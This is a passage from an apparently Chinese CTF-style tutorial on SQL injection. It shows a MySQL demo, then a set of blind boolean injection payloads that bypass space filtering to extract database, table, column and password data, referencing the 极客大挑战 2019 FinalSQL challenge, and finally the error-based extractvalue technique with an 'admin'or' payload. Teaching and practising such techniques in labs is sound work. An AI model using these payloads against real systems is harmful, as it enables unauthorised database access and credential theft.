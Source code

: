 ```

mysql> select * from flag where id=1^(length(database())=3);
+------+------------+
| id   | flag       |
+------+------------+
|    1 | flag{test} |
+------+------------+
1 row in set (0.00 sec)

其他常用payload: (大量尝试,需要借助python脚本) (下面这几个是空格被过滤时使用过的,用加括号的方法绕过)
id=1^(substr(database(),1,1)='g')#  爆库名

id=1^(substr((select(group_concat(table_name))from(mysql.innodb_table_stats)where(database_name='库名')),1,1)='g')#  爆表名

id=1^(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name='表名')),1,1)='g')#   爆列名

id=1^(substr((select(group_concat(password))from(F1naI1y)),1,1)='g')#  具体数据
```

[[极客大挑战 2019]FinalSQL](2e610037.html)

<br>

## 基于报错的注入:

前提是页面能够输出详细的错误信息, 基于报错的注入主要依靠**两个特殊函数`extractvalue`和`updatexml`**,这两个函数的作用分别是**对`XML`文档内容进行查询和修改**

### extractvalue

`ExtractValue(XML_document:XML文档对象或者XML片段, xpath_string:XML中的查找路径)`

例如: 下面的代码就是在前面的XML片段中查找a节点下的b节点.  这里第一个参数既可以是一个文档路径也可以是一个直接输入进去的XML片段

```
SELECT ExtractValue('<a><b><b/></a>', '/a/b');
```

当第二个参数`xpath_string`格式出现错误时, 会使得查询语句爆出`xpath syntax`语法错误,**此时错误信息中会包含出错的`xpath_string`的内容**. **这里字符:`0x7e`(解码后是`~`)就会引起这种语法错误**

所以如果上面的语句变为:

```
SELECT ExtractValue('<a><b><b/></a>', '0x7e');
会报错:
XPATH syntax error: '~'
```

所以这里就可以把**第二个参数换成其他具有查询功能的语句**,例如在注入中常用的: (因为需要爆语法错误,所以第一个参数的文档对象填什么都无所谓了,这里就用了1)

```
admin'or extractvalue(1,concat(0x7e,(database()),0x7e))# 爆数据库名
```
